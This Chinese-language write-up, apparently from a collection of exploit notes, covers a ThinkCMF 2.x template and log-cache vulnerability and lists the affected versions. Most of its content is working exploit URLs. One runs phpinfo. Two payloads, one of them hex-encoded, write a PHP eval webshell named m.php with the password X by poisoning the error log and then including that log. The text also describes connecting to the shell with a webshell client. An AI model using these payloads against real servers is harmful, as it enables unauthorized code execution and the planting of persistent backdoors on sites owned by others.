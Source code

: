 ```yaml
---
title: ThinkCMF 缓存Getshell
id: zhfly3137
---
```


# ThinkCMF 缓存Getshell

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2

## 三、复现过程

### 常规操作

```
http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die(); 
```

![image](../img/2f1f9d5122e9caa8dc0b37ab71f04ec9.png)

## 利用缓存文件getshell

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

```
data/runtime/Logs/Portal/19_12_12.log 
```

**payload 一**

*   首先访问

```
http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E 
```

*   然后请求

```
http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log 
```

*   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

*   首先访问

```
http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E 
```

*   然后菜刀链接（密码也是x）

```
http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log 
```